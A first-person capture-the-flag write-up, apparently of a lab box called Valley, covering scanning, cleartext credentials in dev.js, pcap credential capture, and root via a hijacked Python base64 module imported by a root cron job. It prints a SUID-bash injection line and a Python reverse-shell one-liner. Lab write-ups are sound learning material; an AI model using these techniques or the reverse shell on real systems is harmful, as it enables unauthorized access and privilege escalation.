 I started with "sudo ping -c4 10.10.226.228" to make sure I had a connection with the box.
````
PING 10.10.226.228 (10.10.226.228) 56(84) bytes of data.
64 bytes from 10.10.226.228: icmp_seq=1 ttl=63 time=53.6 ms
64 bytes from 10.10.226.228: icmp_seq=2 ttl=63 time=54.3 ms
64 bytes from 10.10.226.228: icmp_seq=3 ttl=63 time=54.1 ms
64 bytes from 10.10.226.228: icmp_seq=4 ttl=63 time=55.7 ms
````

Everything seems to be working so let's start with a basic nmap scan.
````
nmap -p- 10.10.226.228 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 10:07 EEST
Nmap scan report for 10.10.226.228
Host is up (0.059s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
37370/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 18.69 seconds
````

Let's refine that a bit for more information.
````
nmap -sVC -p22,80,37370 10.10.226.228
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 10:08 EEST
Nmap scan report for 10.10.226.228
The host is up (0.057s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c2:84:2a:c1:22:5a:10:f1:66:16:dd:a0:f6:04:62:95 (RSA)
|   256 42:9e:2f:f6:3e:5a:db:51:99:62:71:c4:8c:22:3e:bb (ECDSA)
|_  256 2e:a0:a5:6c:d9:83:e0:01:6c:b9:8a:60:9b:63:86:72 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
37370/tcp open  ftp     vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.37 seconds
````

So there is SSH, Apache HTTP server, and FTP server with open ports.
Let's check the webserver first as we do not have credentials for SSH or FTP.
The website seems to be for a photography company and there are pricing and gallery pages.
I used ffuf to find more directories 
````
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.10.226.228/FUZZ -ic -t 70
````
Directories found were "gallery, static, pricing". I then used to find more directories with ffuf.
From the "static" directory ffuf found 18 photos and 1 extra with the name "00" which was a much smaller file than the photos.
````
dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /dev1243224123123
-check for SIEM alerts
````

The directory found is a login page. I had ZAP running in the background to catalog everything I went to and the login page loaded "dev.js" which has a function that compares cleartext credentials.
If you log in with the credentials that the function uses for comparison it opens the "/devNotes37370.txt" file with the following:
````
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port
````

As the notes hint, let's try if the plaintext credentials work for the FTP server!
`ftp 10.10.226.228 37370` with the credentials gets us in and there are three .pcapng files.
Downloaded them to my Kali and inspected them with Wireshark.
I spent a while for looking anything interesting in the TCP stream but interesting information was in HTTP requests.
There was one post request in the last file for a login page and as the protocol was not encrypted, the credentials were in plaintext.
I used the credentials to try to log in to the box with SSH and it worked!
There was `user.txt` in the valley user's home folder.

I once again spent way too long looking for ways to escalate privileges and then just tried to "su siemDev" with a password from "dev.js" and it worked.
So now I have access to `valleyDev` and `siemDev` accounts.
So there was a `valleyAuthenticator` elf binary in "/home" folder so I investigated it.
There probably is a better way to figure out what is going on in the binary but I transferred it to Kali and used `strings valleyAuthenticator`.
I got a long list of strings which I grepped for "user" and "pass*" and found some cleartext username of sorts and a password gibberish.
My eye caught a few lines above that looked like hexadecimal strings. Used crackstation.net to see if I was correct and it gave a partial match for one of the lines.
I combined two lines and it's a match! I tried the newly found password for the "valley" user and it worked.

Earlier trying to figure out privilege escalation I found a Python script that runs every minute with root privileges from "/etc/crontab".
Again I tried for a while to find a way to get the script to execute a command by editing the image files but to no avail.
What I should have done is check for what access `valleyAdmin` group that `valley` user was in. 
`/photos/script/photosEncrypt.py` script imports "base64" from "/usr/lib/python3.8" and I have write access to it as `valleyAdmin` group member. 
So I added the line `os.system("chmod u+s /bin/bash")` and as it runs as a root it edited the "bash" binary so I could spawn a privileged shell.
There was a `root.txt` in `/root` folder.

I also spent some extra time to get a reverse shell one-liner working! Here it is: 
````
import sys,socket,os,pty; s=socket.socket(); s.connect(("10.10.10.10",1234)); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/bash")
````
